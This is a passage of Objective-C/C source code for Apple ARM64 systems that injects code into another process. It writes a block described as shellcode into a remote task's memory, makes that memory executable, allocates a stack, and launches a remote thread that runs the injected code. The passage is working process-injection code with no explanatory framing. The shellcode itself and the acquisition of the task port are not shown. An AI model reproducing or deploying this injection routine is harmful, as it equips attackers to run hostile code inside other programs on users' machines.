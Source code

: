 ```objectivec


// Write the shellcode to the allocated memory
kr = mach_vm_write(remoteTask,                   // Task port
remoteCode64,                 // Virtual Address (Destination)
(vm_address_t) injectedCode,  // Source
0xa9);                       // Length of the source


if (kr != KERN_SUCCESS)
{
fprintf(stderr,"Unable to write remote thread memory: Error %s\n", mach_error_string(kr));
return (-3);
}


// Set the permissions on the allocated code memory
kr  = vm_protect(remoteTask, remoteCode64, 0x70, FALSE, VM_PROT_READ | VM_PROT_EXECUTE);

if (kr != KERN_SUCCESS)
{
fprintf(stderr,"Unable to set memory permissions for remote thread's code: Error %s\n", mach_error_string(kr));
return (-4);
}

// Set the permissions on the allocated stack memory
kr  = vm_protect(remoteTask, remoteStack64, STACK_SIZE, TRUE, VM_PROT_READ | VM_PROT_WRITE);

if (kr != KERN_SUCCESS)
{
fprintf(stderr,"Unable to set memory permissions for remote thread's stack: Error %s\n", mach_error_string(kr));
return (-4);
}

// Create thread to run shellcode
struct arm_unified_thread_state remoteThreadState64;
thread_act_t         remoteThread;

memset(&remoteThreadState64, '\0', sizeof(remoteThreadState64) );

remoteStack64 += (STACK_SIZE / 2); // this is the real stack
//remoteStack64 -= 8;  // need alignment of 16

const char* p = (const char*) remoteCode64;

remoteThreadState64.ash.flavor = ARM_THREAD_STATE64;
remoteThreadState64.ash.count = ARM_THREAD_STATE64_COUNT;
remoteThreadState64.ts_64.__pc = (u_int64_t) remoteCode64;
remoteThreadState64.ts_64.__sp = (u_int64_t) remoteStack64;

printf ("Remote Stack 64  0x%llx, Remote code is %p\n", remoteStack64, p );

kr = thread_create_running(remoteTask, ARM_THREAD_STATE64, // ARM_THREAD_STATE64,
(thread_state_t) &remoteThreadState64.ts_64, ARM_THREAD_STATE64_COUNT , &remoteThread );

if (kr != KERN_SUCCESS) {
fprintf(stderr,"Unable to create remote thread: error %s", mach_error_string (kr));
return (-3);
}

return (0);
```